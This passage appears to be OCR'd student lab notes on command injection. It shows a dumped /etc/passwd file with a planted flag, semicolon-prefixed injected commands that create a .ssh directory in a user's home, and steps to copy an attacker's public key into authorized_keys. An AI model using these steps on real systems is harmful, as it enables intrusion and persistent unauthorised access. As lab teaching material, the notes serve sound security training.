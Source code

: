 	* try enumerating /etc/passwd in all the fields provided above ^
	* results for Path to Test:
	* User is billybob
billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash


billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash

---------------------------------------------------------------------------------------------------------------------------------------------

* after you determine the user's home directory, check to see if they have a .ssh directory:
* if not, make one:
```
; mkdir /home/billybob/.ssh
```
* verify it was created:
```
; ls -la /home/billybob
```
# on lin-ops:
	* get your public key
```
ssh-keygen
ls -l /home/student/.ssh
cat /home/student/.ssh/id_rsa.pub
```
	* copy that key over to billybob's /home/billybob/.ssh directory. Into a new file called:	
	* /home/billybob/.ssh/authorized_keys

